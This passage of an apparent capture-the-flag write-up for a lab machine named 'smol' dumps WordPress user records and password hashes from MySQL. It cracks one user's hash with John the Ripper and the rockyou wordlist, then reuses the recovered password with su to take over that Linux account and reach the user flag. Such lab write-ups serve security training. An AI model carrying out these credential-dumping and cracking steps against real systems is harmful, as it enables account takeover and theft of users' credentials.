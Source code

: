 ```
| sys                |
| wordpress          |
+--------------------+

mysql> use wordpress;
show tables; 
+---------------------------+
| Tables_in_wordpress       |
+---------------------------+
| [...]                     |
| wp_users                  |
| [...]                     |
+---------------------------+

select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key | user_status | display_name           |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wordpress user         |
|  3 | think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ | think         | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | Jose Mario Llado Marti |
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | gege                   |
|  5 | diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 | diego         | diego@local        | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | diego                  |
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xavi                   |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
```

Here is all the users credentials!
<br>
After trying to crack the password hashes, i was able to only do it with the user diego:
```
$ john hash --wordlist=../wordlist/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sandiegocalifornia (?)     
1g 0:00:00:56 DONE (2025-10-29 08:14) 0.01775g/s 23376p/s 23376c/s 23376C/s sandr1ta..sandervandoorn
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```
The password for diego is "sandiegocalifornia"<br>
Lets try to login with this password to diegos account on the linux machine!
```
www-data@ip-10-10-36-238:/var/www/wordpress/wp-admin$ su diego
Password: sandiegocalifornia

diego@ip-10-10-36-238:/var/www/wordpress/wp-admin$ 
```
Good, checking diegos home directory, he has the user flag in it!
```
diego@ip-10-10-36-238:~$ cat user.txt
```